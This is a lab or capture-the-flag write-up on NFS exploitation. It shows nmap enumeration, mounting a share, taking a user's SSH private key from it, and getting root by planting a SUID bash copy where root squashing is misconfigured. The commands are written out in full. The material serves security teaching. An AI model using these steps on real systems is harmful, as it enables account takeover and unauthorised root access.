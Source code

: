 
![Pasted image 20240919160551](https://github.com/user-attachments/assets/282a5c8a-2c4f-463d-a591-2011b4c8ca87)



NFS stands for "Network File System" and allows a system to share directories and files with others over a network. By using NFS, users and programs can access files on remote systems almost as if they were local files. It does this by mounting all, or a portion of a file system on a server. The portion of the file system that is mounted can be accessed by clients with whatever privileges are assigned to each file.

If someone wants to access a file using NFS, an RPC call is placed to NFSD (the NFS daemon) on the server. This call takes parameters such as:

The file handle
 The name of the file to be accessed
 The user's, user ID
 The user's group ID

These are used in determining access rights to the specified file. This is what controls user permissions, read and write of files.

###  Enumerating NFS:

nmap  -A 10.10.191.163 -T5 -p- -nnvvvv

![Pasted image 20240920095232](https://github.com/user-attachments/assets/22ec02c8-876d-4dea-b274-bf6858953df5)

### Using Nmap NSE nfs scripts:

![Pasted image 20240919163929](https://github.com/user-attachments/assets/6145205e-e2e4-43a8-898f-b8b4f65cd51e)



 nmap --script nfs-* 10.10.191.163  -T4  -nnvvvv


![Pasted image 20240920095032](https://github.com/user-attachments/assets/cc3ab798-f03e-4738-a7df-f2615cb8bbf3)


#### Using showmount to list the shares on the remote host:

showmount queries the mount daemon on a remote host for information about the state of the NFS server on that machine. With no options showmount lists the set of clients who are mounting from that host

/usr/sbin/showmount -e 10.10.191.163


![Pasted image 20240920095126](https://github.com/user-attachments/assets/3bd751c4-543f-4afa-8f9c-b7555582d7a6)



### Portmap traffic:


The portmap service maps RPC service and version numbers to transport-specific port numbers.

When an RPC service is started, it will tell portmap what port number it is listening to, and what RPC program numbers it is prepared to serve. When a client wishes to make an RPC call to a given program number, it will first contact portmap on the server machine to determine the port number where RPC packets should be sent.

![Pasted image 20240920100456](https://github.com/user-attachments/assets/fb5a1d25-94f8-4d74-abf2-cfd1e4700cec)

### Portmap process:

The server registers with portmap.
The client gets the server’s port from portmap.
The client calls the server.

Network communication: 



![Pasted image 20240920095904](https://github.com/user-attachments/assets/1cedc99e-9313-4c80-8874-7941f024bbfc)



![Pasted image 20240920100041](https://github.com/user-attachments/assets/28ff5c7b-5a64-478a-a225-b1fa4ad3a013)

When a client needs to mount a file system from a server, the client must obtain a file handle from the server. The file handle must correspond to the file system. This process requires that several transactions occur between the client and the server. In this example, the client is attempting to mount /home/ from the server 10.10.191.163 . A snoop trace for this transaction follows.


![Pasted image 20240920100127](https://github.com/user-attachments/assets/38cf5180-6b0d-44c0-a2aa-c23071c959f4)



### Mounting the share to local machine:

Create a directory where the share will be mounted:

mkdir /tmp/mount


sudo mount -t nfs 10.10.191.163:home /tmp/mount/ -nolock
 
### Breaking this down: 


mount : Execute the mount command

-t nfs : Type of device to mount, then specifying that it's NFS

IP:share:  	The IP Address of the NFS server, and the name of the share we wish to mount

-nolock: pecifies not to use NLM locking

### Navigating to the mounted share:

cd /tmp/mount
ls -l


![Pasted image 20240920102239](https://github.com/user-attachments/assets/7b843650-b8c8-433b-a928-bac9a125524c)

cd cappucino

![Pasted image 20240920102820](https://github.com/user-attachments/assets/74fbfa43-46b7-4188-bf5f-f922bdf7f85b)

cd .ssh

![Pasted image 20240920102756](https://github.com/user-attachments/assets/b7a118aa-47a3-4172-9b77-be15bd2bdc0f)


Looking at the connect of the id_rsa key with "nano" command :



![Pasted image 20240920103035](https://github.com/user-attachments/assets/b9145623-b73f-4497-ae92-0c423a84663e)



looking at the content of the authorized_keys with the "cat" command:



![Pasted image 20240920103610](https://github.com/user-attachments/assets/98b5707e-53b5-4c78-bd2b-c18a7ccbf55a)

I copied the private key to my local system and changed the permissions with chmod 600 file_name


ls -lhr id_rsa 

![Pasted image 20240920103435](https://github.com/user-attachments/assets/c303846c-78d8-4846-bf2b-19d7aaaab3f0)


### Login into the server via SSH using the private key:


ssh -i id_rsa cappucino@10.10.191.163


![Pasted image 20240920104035](https://github.com/user-attachments/assets/b7977ea7-3266-4b3e-8c42-85e1073015cc)

### Exploding NFS:


By default, on NFS shares- Root Squashing is enabled, and prevents anyone connecting to the NFS share from having root access to the NFS volume. Remote root users are assigned a user “nfsnobody” when connected, which has the least local privileges. Not what we want. However, if this is turned off, it can allow the creation of SUID bit files, allowing a remote user root access to the connected system. 

 Files with the SUID means that the file or files can be run with the permissions of the file(s) owner/group. In this case, as the super-user. We can leverage this to get a shell with these privileges!
### Downloading the bash shell from the NFS server to local system:


scp -i ~/id_rsa  cappucino@10.10.191.163:/bin/bash ~/Downloads/bash

changing the permissions owner to root:

chown root bash


![Pasted image 20240920105617](https://github.com/user-attachments/assets/b6472191-b3c7-44db-bf5b-96be01625229)

Copying the bash file to /tmp/mount directory 

cp ~/Download/bash /tmp/mount

### Changing the permissions to SUID bit  using chmod:

chmod +s bash 



![Pasted image 20240920113954](https://github.com/user-attachments/assets/cf873900-dcac-4f74-94f9-8c065c02687b)


## Summary:


NFS Access 
Gain Low Privilege Shell 
Upload Bash Executable to the NFS share
Set SUID Permissions Through NFS Due To Misconfigured Root Squash
Login through SSH
Execute SUID Bit Bash Executable
ROOT ACCESS

